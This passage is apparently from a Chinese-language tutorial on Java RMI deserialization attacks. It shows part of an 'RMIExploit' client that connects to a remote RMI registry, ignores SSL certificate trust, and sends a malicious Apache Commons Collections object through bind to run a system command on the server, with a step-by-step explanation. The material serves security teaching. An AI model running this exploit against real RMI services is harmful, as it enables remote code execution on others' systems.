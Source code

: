 ```java
         registry.bind(name, remote);
      } catch (Throwable e) {
         e.printStackTrace();
      }
   }

   public static void main(String[] args) throws Exception {
      if (args.length == 0) {
         // 如果不指定连接参数默认连接本地RMI服务
         args = new String[]{RMI_HOST, String.valueOf(RMI_PORT), "open -a Calculator.app"};
      }

      // 远程RMI服务IP
      final String host = args[0];

      // 远程RMI服务端口
      final int port = Integer.parseInt(args[1]);

      // 需要执行的系统命令
      final String command = args[2];

      // 获取远程Registry对象的引用
      Registry registry = LocateRegistry.getRegistry(host, port);

      try {
         // 获取RMI服务注册列表(主要是为了测试RMI连接是否正常)
         String[] regs = registry.list();

         for (String reg : regs) {
            System.out.println("RMI:" + reg);
         }
      } catch (ConnectIOException ex) {
         // 如果连接异常尝试使用SSL建立SSL连接,忽略证书信任错误，默认信任SSL证书
         registry = LocateRegistry.getRegistry(host, port, new RMISSLClientSocketFactory());
      }

      // 执行payload
      exploit(registry, command);
   }

}
```

程序执行后将会在`RMI服务端`弹出计算器(`仅Mac系统，Windows自行修改命令为calc`)，`RMIExploit`程序执行的流程大致如下：

1. 使用`LocateRegistry.getRegistry(host, port)`创建一个`RemoteStub`对象。
2. 构建一个适用于`Apache Commons Collections`的恶意反序列化对象(使用的是`LazyMap`+`AnnotationInvocationHandler`组合方式)。
3. 使用`RemoteStub`调用`RMI服务端`的`bind`指令，并传入一个使用动态代理创建出来的`Remote`类型的恶意`AnnotationInvocationHandler`对象到`RMI服务端`。
4. `RMI服务端`接受到`bind`请求后会反序列化我们构建的恶意`Remote对象`从而触发`Apache Commons Collections`漏洞的`RCE`。

**RMI客户端端`bind`序列化：**

